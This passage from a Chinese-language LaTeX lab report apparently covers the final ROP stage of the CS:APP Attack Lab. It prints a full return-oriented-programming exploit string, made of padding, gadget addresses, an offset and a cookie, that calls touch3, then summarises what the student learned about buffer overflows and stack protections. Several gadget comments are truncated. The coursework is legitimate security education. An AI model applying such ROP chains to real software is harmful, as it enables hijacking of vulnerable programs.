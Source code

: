对于移动指令, 统一取表中第1个gadget; 对于 \verb|popq| 指令, 统一取 \verb|0x4019cc| 处的gadget. 计算得偏移量为 \verb|0x48|. 于是, 得到一种可行的利用字符串
\begin{code}{text}
    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
    06 1a 40 00 00 00 00 00 /* gadget1: movq    %
    a2 19 40 00 00 00 00 00 /* gadget2: movq    %
    cc 19 40 00 00 00 00 00 /* gadget3: popq    %
    48 00 00 00 00 00 00 00 /* 0x48 */
    dd 19 40 00 00 00 00 00 /* gadget4: movl    %
    34 1a 40 00 00 00 00 00 /* gadget5: movl    %
    13 1a 40 00 00 00 00 00 /* gadget6: movl    %
    d6 19 40 00 00 00 00 00 /* gadget7: add_xy */
    a2 19 40 00 00 00 00 00 /* gadget8: movq    %
    fa 18 40 00 00 00 00 00 /* touch3 */
    35 39 62 39 39 37 66 61 /* "59b997fa" */
\end{code}
存于  中.

成功通过本关卡, 输出如下

\clearpage
\section{总结}

完成Attack Lab, 主要有以下收获:

\begin{itemize}
    \item 掌握了缓冲区溢出的原理, 能够利用CI和ROP安全漏洞对程序发起攻击.
    \item 了解到在编程时增强程序健壮性的一些手段, 例如将指针随机化.
    \item 理解了编译器和操作系统对栈缓冲区溢出提供保护的方式, 例如栈随机化和标记不可执行段.
    \item 深化了对调用栈与传参机制的理解, 记忆了部分x86-64指令的编码方式.
    \item 熟练使用 \verb|gdb|, \verb|objdump| 等调试工具.
    \item 熟练使用 \LaTeX 中的 \verb|tikz| 宏包.
    \item 熟悉了正则表达式的语法, 转义字符, 通配符等.
\end{itemize}

